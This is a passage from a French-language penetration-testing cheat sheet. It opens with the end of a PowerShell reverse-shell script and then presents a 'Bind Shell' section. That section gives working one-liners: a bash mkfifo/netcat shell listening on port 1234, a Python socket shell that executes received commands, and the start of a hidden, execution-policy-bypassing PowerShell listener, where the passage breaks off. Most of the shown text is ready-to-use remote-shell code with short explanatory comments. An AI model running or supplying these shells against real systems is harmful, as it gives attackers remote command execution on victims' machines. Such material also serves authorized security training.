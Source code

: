 ```powershell
    # Vide le buffer du flux, s'assurant que toutes les données sont bien envoyées.
};

$client.Close();
# Ferme la connexion TCP proprement.

```
{% endcode %}

***

### <mark style="color:blue;">Bind Shell</mark>

**Le Bind Shell** attend que nous nous y connections.

<mark style="color:green;">**Étapes pour utiliser un Bind Shell :**</mark>

1. **Commande de Bind Shell :**
   *   **Linux (bash)**&#x20;

       {% code title="Bind shell" lineNumbers="true" fullWidth="true" %}
       ```bash
       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
       ```
       {% endcode %}
   *   **Python :**

       {% code overflow="wrap" lineNumbers="true" %}
       ```python
       python -c 'exec("""
       import socket as s
       import subprocess as sp

       s1 = s.socket(s.AF_INET, s.SOCK_STREAM)
       s1.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1)
       s1.bind(("0.0.0.0", 1234))
       s1.listen(1)
       c, a = s1.accept()

       while True:
           d = c.recv(1024).decode()
           p = sp.Popen(d, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE)
           c.sendall(p.stdout.read() + p.stderr.read())
       """)'

       ```
       {% endcode %}
   *   **Windows (Powershell) :**

       {% code overflow="wrap" %}
       ```powershell
       powershell -NoP -NonI -W Hidden -Exec Bypass -Command {
           $listener = [System.Net.Sockets.TcpListener]1234
           $listener.Start()
           $client = $listener.AcceptTcpClient()
           $stream = $client.GetStream()
           [byte[]]$bytes = 0..65535 | % {0}
